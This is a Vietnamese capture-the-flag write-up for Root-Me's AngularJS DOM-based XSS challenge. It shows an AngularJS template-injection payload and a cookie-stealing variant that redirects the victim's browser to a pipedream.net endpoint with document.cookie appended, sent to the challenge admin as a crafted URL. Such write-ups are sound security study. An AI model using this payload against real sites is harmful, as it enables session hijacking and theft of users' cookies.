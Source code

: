 # [XSS DOM Based - Angular](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)

Thử submit giá vị vào input, ta xem được script mà website handle:

![](./media/image1.png)

Mất khá nhiều thời gian để tránh filter và hiểu code. Có vẻ không thể attack bằng cách “hiểu” code được. Đề bài có tên là **AngularJS,** tra cứu cheatsheet XSS Angular, ta có thể tìm được payload: **$on.constructor('alert(1)')()**

Để khiến JS thực thi command, ta chèn `{{ }}` để triển khai expression:

**{{$on.constructor('alert(1)')()}}**

Tuy vậy, lúc chèn payload, website trả về:

![](./media/image2.png)

Thử thay **' "** thì đã chèn thành công script:

![](./media/image3.png)

Chỉnh sửa payload để thực thi DOM Based XSS attack. Ta sử dụng **\\"** để thoát chuỗi **"":**

Payload: **{{$on.constructor("document.location=\\"https://eol9dtzbk9673pb.m.pipedream.net?cookie=\\"+document.cookie")()}}**

![](./media/image4.png)

Payload đã chạy được. Giờ thì gửi payload đến admin qua Contact tab:

[*http://challenge01.root-me.org/web-client/ch35/?name={{$on.constructor("document.location=\\"https://eol9dtzbk9673pb.m.pipedream.net?cookie=\\"%20document.cookie")()}}*](http://challenge01.root-me.org/web-client/ch35/?name=%7b%7b$on.constructor(%22document.location=\%22https://eol9dtzbk9673pb.m.pipedream.net?cookie=\%22%20document.cookie%22)()%7d%7d)

![](./media/image5.png)

HTTP Request nhận về:

![](./media/image6.png)

![](./media/image7.png)

- Flag: "****************************"
